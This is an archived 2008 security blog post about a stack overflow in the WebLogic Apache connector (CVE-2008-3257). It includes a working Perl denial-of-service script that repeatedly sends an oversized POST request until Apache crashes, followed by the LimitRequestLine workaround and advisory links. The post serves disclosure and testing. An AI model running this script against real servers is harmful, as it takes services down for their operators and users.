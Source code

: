 ```yaml
---
id: 30
title: BEA Weblogic Apache Connector Remote Buffer Overflow
date: 2008-07-31T23:00:00+00:00
author: Devin Ertel
layout: post
guid: http://www.infointox.net/?p=30
permalink: /?p=30
blogger_blog:
  - informationintoxication.blogspot.com
blogger_author:
  - Devinhttp://www.blogger.com/profile/15793900111446118223noreply@blogger.com
blogger_permalink:
  - /2008/07/bea-weblogic-apache-connector-remote.html
categories:
  - apache
  - overflow
  - weblogic
tags:
  - Buffer Overflow
  - Perl
---
```

<span style="font-weight: bold;">This post was delayed in release due to sensitivity.<br /> </span>
  
This vulnerability was a pretty fun one just because it affected so many people and it was just so simple to do.

This vulnerability is your standard stack based overflow. This particular overflow occurs in mod_wl which is a WebLogic connector for Apache. The overflow occurs when you send a long POST request for a .jsp. I started to look at KingCopes code but it just didn&#8217;t seem to work in my environment. So based off his code for the DOS, I wrote the one below to test with, nothing fancy.

<div class="wp_syntax">
  <table>
    <tr>
      <td class="code">
        <pre class="perl" style="font-family:monospace;"><span style="color: #000000; font-weight: bold;">use</span> IO<span style="color: #339933;">::</span><span style="color: #006600;">Socket</span><span style="color: #339933;">;</span>
<span style="color: #000000; font-weight: bold;">use</span> strict<span style="color: #339933;">;</span>
&nbsp;
<span style="color: #b1b100;">my</span> <span style="color: #0000ff;">$port</span> <span style="color: #339933;">=</span> <span style="color: #0000ff;">$ARGV</span><span style="color: #009900;">&#91;</span><span style="color: #cc66cc;">1</span><span style="color: #009900;">&#93;</span><span style="color: #339933;">;</span>
<span style="color: #b1b100;">my</span> <span style="color: #0000ff;">$host</span> <span style="color: #339933;">=</span> <span style="color: #0000ff;">$ARGV</span><span style="color: #009900;">&#91;</span><span style="color: #cc66cc;"></span><span style="color: #009900;">&#93;</span><span style="color: #339933;">;</span>
&nbsp;
<span style="color: #b1b100;">my</span> <span style="color: #0000ff;">$dos</span><span style="color: #339933;">=</span><span style="color: #cc66cc;"></span><span style="color: #339933;">;</span>
&nbsp;
<span style="color: #b1b100;">while</span><span style="color: #009900;">&#40;</span><span style="color: #cc66cc;">1</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
&nbsp;
 <span style="color: #b1b100;">if</span> <span style="color: #009900;">&#40;</span><span style="color: #0000ff;">$dos</span> <span style="color: #b1b100;">eq</span> <span style="color: #cc66cc;">1</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
  <span style="color: #ff0000;">"Server is down<span style="color: #000099; font-weight: bold;">\n</span>"</span><span style="color: #339933;">;</span>
          <span style="color: #000066;">exit</span><span style="color: #339933;">;</span>
 <span style="color: #009900;">&#125;</span>
&nbsp;
 <span style="color: #0000ff;">$a</span> <span style="color: #339933;">=</span> <span style="color: #ff0000;">"A"</span> x <span style="color: #cc66cc;">8000</span><span style="color: #339933;">;</span>
 <span style="color: #b1b100;">my</span> <span style="color: #0000ff;">$sock</span> <span style="color: #339933;">=</span> IO<span style="color: #339933;">::</span><span style="color: #006600;">Socket</span><span style="color: #339933;">::</span><span style="color: #006600;">INET</span><span style="color: #339933;">-&</span><span style="color: #b1b100;">gt</span><span style="color: #339933;">;</span><span style="color: #000000; font-weight: bold;">new</span><span style="color: #009900;">&#40;</span>PeerAddr <span style="color: #339933;">=&</span><span style="color: #b1b100;">gt</span><span style="color: #339933;">;</span> <span style="color: #0000ff;">$host</span><span style="color: #339933;">,</span>
                                         PeerPort <span style="color: #339933;">=&</span><span style="color: #b1b100;">gt</span><span style="color: #339933;">;</span> <span style="color: #0000ff;">$port</span><span style="color: #339933;">,</span>
                                         Proto <span style="color: #339933;">=&</span><span style="color: #b1b100;">gt</span><span style="color: #339933;">;</span> <span style="color: #ff0000;">'tcp'</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
 <span style="color: #000066;">print</span> <span style="color: #0000ff;">$sock</span> <span style="color: #ff0000;">"POST /index.jsp $a<span style="color: #000099; font-weight: bold;">\r</span><span style="color: #000099; font-weight: bold;">\n</span><span style="color: #000099; font-weight: bold;">\r</span><span style="color: #000099; font-weight: bold;">\n</span>Host: localhost<span style="color: #000099; font-weight: bold;">\r</span><span style="color: #000099; font-weight: bold;">\n</span><span style="color: #000099; font-weight: bold;">\r</span><span style="color: #000099; font-weight: bold;">\n</span>"</span><span style="color: #339933;">;</span>
&nbsp;
 <span style="color: #000066;">read</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">$sock</span><span style="color: #339933;">,</span><span style="color: #0000ff;">$_</span><span style="color: #339933;">,</span><span style="color: #cc66cc;">100</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span> 
 <span style="color: #000066;">print</span> <span style="color: #ff0000;">"=&gt;"</span> <span style="color: #339933;">.</span> <span style="color: #0000ff;">$_</span> <span style="color: #339933;">.</span> <span style="color: #ff0000;">"&lt;=<span style="color: #000099; font-weight: bold;">\n</span><span style="color: #000099; font-weight: bold;">\n</span>"</span><span style="color: #339933;">;</span>
        <span style="color: #b1b100;">if</span> <span style="color: #009900;">&#40;</span><span style="color: #339933;">!</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">$_</span> <span style="color: #339933;">=~</span> <span style="color: #009966; font-style: italic;">/Server/</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span> <span style="color: #009900;">&#123;</span>
                        <span style="color: #0000ff;">$dos</span> <span style="color: #339933;">=</span> <span style="color: #cc66cc;">1</span><span style="color: #339933;">;</span>
                <span style="color: #009900;">&#125;</span>
 <span style="color: #000066;">close</span><span style="color: #009900;">&#40;</span><span style="color: #0000ff;">$sock</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>        
<span style="color: #009900;">&#125;</span></pre>
      </td>
    </tr>
  </table>
</div>

The code above will seg fault Apache. The endless loop is needed because Apache recovers so quickly and it was an easy way to perform the DOS(took a couple of minutes). I have not had much time but I would like to explore this further and start debugging to see if code can be executed in a Linux environment.

<span style="font-weight: bold;">Fix:</span>
  
After all of my testing the workaround that was recommended by Oracle does work. They have not released a patch at this time.

With the workaround in place I even tried the DOS by sending a POST of 3999 to not trigger the LimitRequestLine. Apache handled the large repeating requests like a champ.

Workaround in apache conf:
  
<span style="font-weight: bold;">LimitRequestLine 4000<br /> </span>

[http://www.milw0rm.com](http://www.milw0rm.com/exploits/6089)
  
[http://cve.mitre.org](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-3257)
  
[http://www.frsirt.com](http://www.frsirt.com/english/advisories/2008/2145)